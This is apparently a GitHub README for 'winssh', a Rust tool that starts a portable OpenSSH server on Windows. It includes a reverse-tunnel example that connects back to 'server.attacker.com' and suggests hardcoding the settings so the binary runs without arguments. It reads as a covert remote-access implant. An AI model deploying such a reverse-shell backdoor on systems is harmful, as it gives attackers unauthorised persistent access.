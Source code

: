 # winssh

Spawns a ssh server on windows. No installation required.
Based on https://github.com/PowerShell/Win32-OpenSSH/

## usage

When launched without arguments, `winssh.exe` default to start an OpenSSH server on port 127.0.0.1:8022.
You can specify a port using:
```
winssh.exe --port <port>
```

You can also specify a server and port to connect back to using:

```
winssh.exe --tunnel-server server.attacker.com --tunnel-port 2222
```

Or you can modify the source to hardcode the default values resulting in a binary, that will execute witout any commandline args.

On every build new keys will be generated. After starting the server you can use the "key" from the files directory.
The key `key-reverse` from the files directory is used to connect back to the remote server (if specified).

## compile

```
rustup target add x86_64-pc-windows-gnu
rustup toolchain install stable-x86_64-pc-windows-gnu
```

Windows:
```
cargo build --release --target x86_64-pc-windows-gnu
```

To reduce the filesize further, you can strip the binaries with `strip`.
